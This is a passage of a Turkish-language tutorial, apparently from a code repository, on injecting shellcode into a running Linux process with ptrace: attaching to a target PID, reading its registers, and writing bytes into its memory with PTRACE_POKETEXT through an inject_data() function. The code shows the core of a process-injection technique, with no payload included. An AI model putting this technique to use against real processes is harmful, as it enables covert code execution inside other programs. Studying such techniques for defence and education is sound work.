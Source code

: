 

agüman olarak *“target”* değişkenine aldığımız Process ID sine sahip process 'e **ptrace** sistem çağrısının `“PTRACE_ATTACH”` parametresini kullanarak yeni bir Debugging process i oluşturup hedeflediğimiz process e dinamik olarak dahil olmak istiyoruz, ardından Hedeflediğimiz process e dahil olduğumuzu işaret eden ***SIGTRAP*** sinyalini beklemeye koyuluyoruz…

Bu noktada, dahil olmak istediğimiz Process durdurulur ve onu istediğimiz zaman değiştirmeye başlayabiliriz.


  
  
  
  
  
***Burada ise,*** 

```
  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
```


*ptrace* çağrısının **“PTRACE_GETREGS”** parametresi ile Kontrolümüz altındaki process in Register değerleri regs isimli değişkene atanır.    
 
 
 
 
 
***Aşşağıda gördüğümüz inject_data() Fonksiyonu ise,*** 

```
int inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
int i;
uint32_t *s = (uint32_t *) src;
uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}
```

görüldüğü üzere **prtace** çağrısının **“PTRACE_POKETEXT”** parametresi ; “inject_data” fonksiyonunun parametreleri ile aldığımız verileri (Shellcode , Shellcode inject edileceği yer vs.) üzerinde Debugging işlemi uyguladığımız asıl process’e yazmamızı sağlar bu aynı zamanda process 'e nasıl shellcode inject ettiğimizi de açıklıyor.
